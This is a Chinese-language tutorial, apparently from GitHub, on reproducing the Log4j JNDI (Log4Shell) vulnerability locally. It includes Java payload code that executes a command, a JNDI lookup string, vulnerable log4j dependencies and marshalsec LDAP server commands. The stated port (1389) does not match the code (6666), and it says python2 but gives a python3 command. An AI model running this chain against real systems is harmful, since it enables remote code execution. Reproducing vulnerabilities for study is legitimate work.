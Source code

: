 # apache-log4j本地漏洞复现

exp（弹出一个计算器）

```java
public class exp {
    static {
        try {
            String [] cmd={"calc"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }

}
```

Main

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import java.io.IOException;

public class Main {
    public static final Logger logger = LogManager.getLogger(Main.class);
    public static void main(String[] args) throws IOException {
        logger.error("${jndi:ldap://127.0.0.1:6666/exp}");
    }
}
```

需要向pom.xml中导入以下配置

```xml
<dependencies>
        <!-- https://search.maven.org/ -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.0</version>
        </dependency>
        <!-- https://search.maven.org/ -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.0</version>
        </dependency>
    </dependencies>
```

把exp的java源码用`javac exp.java`生成exp.class，记得最好单独放到一个文件夹里，在到这个文件夹下，用python2开个http服务`python -m http.server 8899`，如下说明成功

![image-20211210163035219](https://s2.loli.net/2021/12/10/d8AcUODlQP2RKxF.png)

复现之前，需要下载一个插件

`git clone git@github.com:mbechler/marshalsec.git`

用idea打开此项目，使用Maven生成jar包

先clean，然后package（中途可能会报错）

![image-20211210163227931](https://s2.loli.net/2021/12/10/6wPGI5TUkXgipn3.png)

然后单独用命令`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8899/#exp"`

![image-20211210163848110](https://s2.loli.net/2021/12/10/yALQ5SOj2mrpEqG.png)

运行后显示1389为监听端口，这也是为什么我的main函数中的端口为1389

这样就成功了

![image-20211210164000550](https://s2.loli.net/2021/12/10/p45r2MFinb6OW8d.png)

